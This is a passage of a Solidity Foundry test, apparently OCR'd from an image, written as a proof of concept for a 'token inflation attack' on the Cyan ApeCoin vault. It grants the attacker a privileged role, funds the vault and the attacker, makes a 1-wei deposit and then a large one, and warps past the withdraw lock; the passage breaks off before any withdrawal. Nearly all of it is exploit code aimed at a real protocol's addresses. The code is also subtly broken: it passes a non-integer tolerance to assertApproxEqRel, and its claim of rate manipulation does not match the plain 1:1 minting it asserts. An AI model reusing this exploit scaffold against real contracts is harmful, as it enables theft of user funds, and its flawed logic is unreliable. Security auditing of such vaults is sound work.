 ```solidity

        // Initialize contract addresses (replace placeholders with real addresses from the Cyan protocol)
        vault = CyanApeCoinVault(0xCF9A19D879769aDaE5e4f31503AAECDa82568E55); // Example vault address
        apeCoin = IERC20Upgradeable(0x4d224452801ACEd8B2F0aebE155379bb5D594381); // Actual ApeCoin address on Ethereum
        vaultToken = ICyanVaultTokenV1(vault.cyanVaultTokenContract()); // Fetch vault token address from vault

        // Grant CYAN_APE_PLAN_ROLE to the attacker to simulate access via CyanApeCoinPlan
        vm.startPrank(superAdmin); // Use super admin to grant role
        vault.grantRole(keccak256("CYAN_APE_PLAN_ROLE"), attacker);
        vm.stopPrank();

        // Fund the vault with an initial balance for testing
        deal(address(apeCoin), address(vault), INITIAL_VAULT_BALANCE); // Set vault balance to 1M ApeCoin
        console.log("Vault initial ApeCoin balance:", apeCoin.balanceOf(address(vault)));

        // Fund the attacker with ApeCoin for deposits and approve vault to spend it
        deal(address(apeCoin), attacker, 2e18); // Give attacker 2 ApeCoin
        apeCoin.approve(address(vault), type(uint256).max); // Allow vault to spend attacker’s ApeCoin
    }

    // Main test function simulating the token inflation attack
    function testTokenInflationAttack() public {
        // Verify initial state to ensure test conditions are met
        assertEq(apeCoin.balanceOf(address(vault)), INITIAL_VAULT_BALANCE, "Vault should have initial balance of 1M ApeCoin");
        assertEq(vaultToken.totalSupply(), 0, "Vault token supply should be 0 initially");
        assertEq(vaultToken.balanceOf(attacker), 0, "Attacker should have 0 tokens initially");

        // Step 1: Perform a small initial deposit (1 wei) to set the exchange rate to 1:1
        CyanApeCoinVault.DepositInfo[] memory deposits1 = new CyanApeCoinVault.DepositInfo[](1);
        deposits1[0] = CyanApeCoinVault.DepositInfo(attacker, 1); // Deposit 1 wei
        vault.depositBatch(deposits1);
        assertEq(vaultToken.balanceOf(attacker), 1, "Should mint 1 token for 1 wei deposit");
        console.log("After small deposit - Attacker tokens:", vaultToken.balanceOf(attacker));

        // Step 2: Perform a large deposit (1e18 ApeCoin) to mint excessive tokens
        CyanApeCoinVault.DepositInfo[] memory deposits2 = new CyanApeCoinVault.DepositInfo[](1);
        deposits2[0] = CyanApeCoinVault.DepositInfo(attacker, 1e18); // Deposit 1e18 ApeCoin
        vault.depositBatch(deposits2);
        assertEq(vaultToken.balanceOf(attacker), 1e18 + 1, "Should mint 1e18 + 1 tokens due to rate manipulation");
        console.log("After large deposit - Attacker tokens:", vaultToken.balanceOf(attacker));
        console.log("Vault ApeCoin balance after deposits:", apeCoin.balanceOf(address(vault)));

        // Step 3: Calculate and verify the vault’s total currency and token supply
        (uint256 totalCurrency, uint256 totalToken) = vault.getTotalCurrencyAndToken();
        console.log("Vault totalCurrency:", totalCurrency);
        console.log("Vault totalToken:", totalToken);
        assertApproxEqRel(totalCurrency, INITIAL_VAULT_BALANCE + 1e18 + 1, 1e-6, "Total currency should match deposits and initial balance");

        // Step 4: Wait for the withdraw lock term (if any) to pass before withdrawing
        uint256 lockTerm = vault.withdrawLockTerm();
        if (lockTerm > 0) {
            vm.warp(block.timestamp + lockTerm + 1); // Advance time to bypass withdraw lock
        }

```